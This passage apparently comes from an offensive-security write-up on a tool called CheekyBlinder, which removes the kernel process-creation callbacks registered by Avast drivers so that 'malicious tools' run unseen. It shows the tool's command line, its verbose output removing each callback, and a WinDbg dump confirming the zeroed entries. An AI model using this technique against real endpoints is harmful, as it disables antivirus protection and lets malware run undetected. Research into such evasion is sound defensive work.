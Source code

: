 A quick google search shows us that aswArPot.sys, aswSP.sys and aswbuniv.sys are Avast drivers, so we now know that at least for process notifications, these drivers might be blocking our malicious tools.

We unload them using our little program (the output has been made a bit more verbose than it probably should be):

```
PS C:\Dev\CheekyBlinder\x64\Release> .\CheekyBlinder.exe /delprocess fffff800204a1720
[+] Windows Version 1909 Found
[+] Removing process creation callback: FFFFF800204A1720
[+] Device object handle obtained: 0000000000000084
[+] PsSetCreateProcessNotifyRoutine address: FFFFF8001DF616B0
[+] Kernel base address: FFFFF8001D80E000
[+] PspCreateProcessNotifyRoutine: FFFFF8001DD13EA0
[+] Enumerating process creation callbacks
[+] fffff8001d92f690 [ntoskrnl.exe + 0x121690]
[+] fffff8001ebf7220 [cng.sys + 0x7220]
[+] fffff8001e75b420 [ksecdd.sys + 0x1b420]
[+] fffff8001fcfd9f0 [tcpip.sys + 0x1d9f0]
[+] fffff800203dd930 [iorate.sys + 0xd930]
[+] fffff800204a1720 [aswbuniv.sys + 0x1720]
Removing callback to FFFFF800204A1720 at address FFFFF8001DD13EC8
[+] fffff80021aa9ec0 [vm3dmp.sys + 0x9ec0]
[+] fffff8001eb854d0 [CI.dll + 0x754d0]
[+] fffff80020af25ac [aswSP.sys + 0x325ac]
[+] fffff80021276aa0 [dxgkrnl.sys + 0x6aa0]
[+] fffff800236e3cf0 [peauth.sys + 0x43cf0]
[+] fffff80021836ed0 [aswArPot.sys + 0x6ed0]
```
We repeat this for the remaining two drivers and confirm the drivers are no longer listed in the callback list:
```
[+] Windows Version 1909 Found
[+] Device object handle obtained: 00000000000000A4
[+] PsSetCreateProcessNotifyRoutine address: FFFFF8001DF616B0
[+] Kernel base address: FFFFF8001D80E000
[+] PspCreateProcessNotifyRoutine: FFFFF8001DD13EA0
[+] Enumerating process creation callbacks
[+] fffff8001d92f690 [ntoskrnl.exe + 0x121690]
[+] fffff8001ebf7220 [cng.sys + 0x7220]
[+] fffff8001e75b420 [ksecdd.sys + 0x1b420]
[+] fffff8001fcfd9f0 [tcpip.sys + 0x1d9f0]
[+] fffff800203dd930 [iorate.sys + 0xd930]
[+] fffff80021aa9ec0 [vm3dmp.sys + 0x9ec0]
[+] fffff8001eb854d0 [CI.dll + 0x754d0]
[+] fffff80021276aa0 [dxgkrnl.sys + 0x6aa0]
[+] fffff800236e3cf0 [peauth.sys + 0x43cf0]
```
Windbg view (note the blocks of zeroes where the callback routines were previously listed):
```
lkd> dq nt!PspCreateProcessNotifyRoutine
fffff800`1dd13ea0  ffffdb83`5d85030f ffffdb83`5da605af
fffff800`1dd13eb0  ffffdb83`5df7c5df ffffdb83`5df7cdef
fffff800`1dd13ec0  ffffdb83`6068a1df 00000000`00000000
fffff800`1dd13ed0  ffffdb83`5df04bff ffffdb83`6068a9ef
fffff800`1dd13ee0  00000000`00000000 ffffdb83`5df0237f
fffff800`1dd13ef0  ffffdb83`6322dc2f 00000000`00000000
fffff800`1dd13f00  00000000`00000000 00000000`00000000
fffff800`1dd13f10  00000000`00000000 00000000`00000000
```
